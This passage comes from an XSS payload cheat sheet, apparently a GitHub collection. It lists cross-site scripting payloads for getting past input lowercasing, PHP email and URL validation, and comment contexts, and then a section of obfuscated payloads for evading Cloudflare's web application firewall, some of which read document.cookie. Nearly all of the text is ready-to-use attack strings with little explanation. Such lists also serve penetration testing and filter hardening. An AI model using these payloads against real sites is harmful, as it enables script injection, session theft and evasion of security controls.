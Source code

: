 23. JS Lowercased Input

```html
<SCRİPT>alert(1)</SCRİPT>
```

24. PHP Email Validation Bypass

```html
<svg/onload=alert(1)>"@gmail.com
```

25. PHP URL Validation Bypass

```html
javascript://%250Aalert(1)
```

26. Inside Comments Bypass

```html
<!--><svg onload=alert(1)-->
```

## Bypass WAF

1. Cloudflare

```
<svg%0Aonauxclick=0;[1].some(confirm)//

<svg/onload={alert`1`}>

<a/href=j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(1)&rpar;>

"><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;

"><onx=[] onmouseover=prompt(1)>

%2sscript%2ualert()%2s/script%2u

"Onx=() onMouSeoVer=prompt(1)>"Onx=[] onMouSeoVer=prompt(1)>"/*/Onx=""//onfocus=prompt(1)>"//Onx=""/*/%01onfocus=prompt(1)>"%01onClick=prompt(1)>"%2501onclick=prompt(1)>"onClick="(prompt)(1)"Onclick="(prompt(1))"OnCliCk="(prompt`1`)"Onclick="([1].map(confirm))

[1].map(confirm)'ale'+'rt'()a&Tab;l&Tab;e&Tab;r&Tab;t(1)prompt&lpar;1&rpar;prompt&#40;1&#41;prompt%26%2300000000000000000040;1%26%2300000000000000000041;(prompt())(prompt``)

<svg onload=alert%26%230000000040"1")>

<svg onload=prompt%26%230000000040document.domain)>

<svg onload=prompt%26%23x000000028;document.domain)>

<svg/onrandom=random onload=confirm(1)>

<video onnull=null onmouseover=confirm(1)>

<a id=x tabindex=1 onbeforedeactivate=print(`XSS`)></a><input autofocus>

<img ignored=() src=x onerror=prompt(1)>

<svg onx=() onload=(confirm)(1)>

<--`<img/src=` onerror=confirm``> --!>

```